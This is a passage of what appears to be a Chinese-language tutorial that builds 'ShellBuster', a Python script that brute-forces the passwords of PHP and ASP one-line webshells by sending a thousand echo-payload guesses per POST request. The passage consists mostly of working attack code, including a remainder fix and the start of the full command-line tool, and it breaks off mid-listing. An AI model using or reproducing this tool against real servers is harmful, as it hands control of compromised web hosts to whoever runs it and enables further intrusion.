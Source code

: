 尝试执行脚本，可以看到，python处理数据极快：

![Alt text](./pic/2016-12-18 20_52_08.gif)

但是，出现了问题，明明是存在密码的，但是却没爆破出来。后来想了下，是因为密码在最后一位，我们在以千为单位分割时漏掉了余数，于是如下添加以下代码补齐余数：

```
new_group1 = []
for kk in range(dics * 1000, len(content)):
    new_group1.append(group[kk])
    kk += 1
for each in new_group1:
    post_data[each] = 'echo "password is %s";' % each
r = requests.post(shell, data=post_data)
print "正在进行余数字典爆破"
print r.text
```

![Alt text](./pic/2016-12-18 21_16_14.gif)

如此，软件基本成型，我们还需加入ASP类型的脚本木马爆破，直接替换提交的数据即可。

为了方便我们的用户使用，需要进行变量在命令行由客户传入，即实现自定义和批量等功能：

客户传参使用`ConfigParser`模块，完整代码如下，加入了脚本类型的区分：

```
# -*- coding: UTF-8 -*-
#coding by v5est0r
#单次多变量提交变量方式,一句话爆破提速千倍

import requests,sys
import ConfigParser

shell = sys.argv[1]
shell_type=sys.argv[2]
pass_dic=sys.argv[3]

print '''

   Usage:python ShellBuster.py shell_url shell_type dic_dir

              Code by binghe/v5est0r
'''



post_data = {}  #创建字典集
s = open(pass_dic,'r')
content = s.readlines() #分行读取字典
dics = len(content)/1000

print '当前字典中变量个数为: %s' % str(len(content))

print "字典将被分割为 %s 份" % str(dics)

group = []  #字典每行独立化,写入元组
for h in range(0,len(content)):
    password = str(content[h]).strip('\n')  #剔除换行符
    group.append(password)
#print group


if str(shell_type)=="php":
    post_test = {'test_pass_test': 'echo "test!!";'}
    res = requests.post(shell, data=post_test)
    wrong_res = res.text
```